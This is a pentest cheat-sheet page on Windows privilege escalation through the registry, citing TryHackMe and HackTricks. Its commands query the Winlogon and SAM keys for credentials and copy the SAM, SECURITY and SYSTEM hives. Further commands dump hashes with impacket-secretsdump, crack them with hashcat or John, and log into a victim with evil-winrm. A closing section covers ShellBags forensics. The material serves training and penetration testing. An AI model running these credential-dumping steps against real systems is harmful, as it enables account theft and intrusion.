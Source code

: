 ```yaml
---
title: Windows PrivEsc with Registry Keys
description: The Windows Registry is a hierarchical database that stores low-level settings for Windows and for applications that opt to use the registry. Registry keys are container objects, which contain values and subkeys. These similar to folders.
tags:
    - Privilege Escalation
    - Windows
refs:
    - https://tryhackme.com/r/room/expregistryforensics
    - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
date: 2024-05-01
draft: false
---
```


## Investigation

Find interesting registry or values in registry keys.

```bash
# OS Version
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion"
# User credentials
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
# Computer Name
reg query "HKLM\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName"
# Time Zone
reg query "HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation"
# Network Interface
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces"
# Connected Networks
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkList"

# Autoruns
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run"
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce"
reg query "HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run"
reg query "HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce"
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce"
reg query "HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run"
reg query "HKCU\Software\Wow6432Npde\Microsoft\Windows\CurrentVersion\RunOnce"

# SAM user information
reg query "HKLM\SAM\Domains\Account\Users"
reg query "HKCU\SAM\Domains\Account\Users"

# External Devices
reg query "HKLM\SYSTEM\CurrentControlSet\Enum\USBSTOR"
reg query "HKLM\SYSTEM\CurrentControlSet\Enum\USB"
```

### Location of Registry Hives

Registry hives (**SAM, SECURITY, SYSTEM**) are located under `C:\Windows\System32\Config` folder.

<br />

## Reveal Password from Registry Hives

A hive is a logical group of keys, subkeys, and values in the registry that has a set of supporting files loaded into memory when the operating system is started or a user logs in.

If we can access to registries and get registry hives, the password hashes can be dumped.  
Copy three hives (**SAM, SECURITY, SYSTEM**) to arbitrary direcotyr where we can access.

```powershell
# save: Saves a copy of specified subkeys, entries, and values of the registry in a specified file.
# HKLM: HKEY_LOCAL_MACHINE
reg save HKLM\sam c:\Users\<user>\Desktop\sam.save
reg save HKLM\security c:\Users\<user>\Desktop\security.save
reg save HKLM\system c:\Users\<user>\Desktop\system.save
```

After that, we can dump password hashes from hives.

```bash
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
```

### Crack Hashes

After dumping hashes, we can crack them.  
First, we extract NTLM from the hash. For example, the dumped hash is below.

```bash
Administrator:500:abcdefghi...:zyxwvuts...:::
```

We need only the right string "zyxwvuts…", so extract it to a text file as below.

```bash
echo -n "zyxwvuts..." > hash.txt
```

Now crack it using **Hashcat** or **John The Ripper**.  
See more details **[here](/exploit/windows/dumping-windows-password-hashes/)**.

```bash
# Hashcat
# -m 1000: mode NTLM
hashcat -m 1000 hash.txt wordlist.txt

# John The Ripper
john --format=nt --wordlist=wordlist.txt hash.txt
```

If we get the password, we can use it for abusing the target machine.  
For example, we can use it to **WinRM** as below.

```bash
evil-winrm -i <victim_ip> -u <victim_username> -p <victim_password>
```

<br />

## ShellBags

A set of registry keys that store details about a viewed folder, such as its size, position, and icon.

### Location

```txt
c:\Users\<username>\AppData\Local\Microsoft\Windows\UsrClass.dat
``` 

If we cannot found AppData folder in Explorer, click "View" tab and check "Hidden Items".

### Access to Shellbag**

1. Search "regedit" on search bar and open "Registry Editor"

2. Go to "Computer\HKEY_CLASSES_ROOT\LocalSettings\Software\Microsoft\Windows\Shell\Bags"

### ShellBags Explorer

Extract ShellBags information.

1. Open "ShellBags Explorer"

2. Select "File" -> "Load offline hive"

3. Navigate to the UsrClass.dat and open the file

4. Find suspicious folder and file


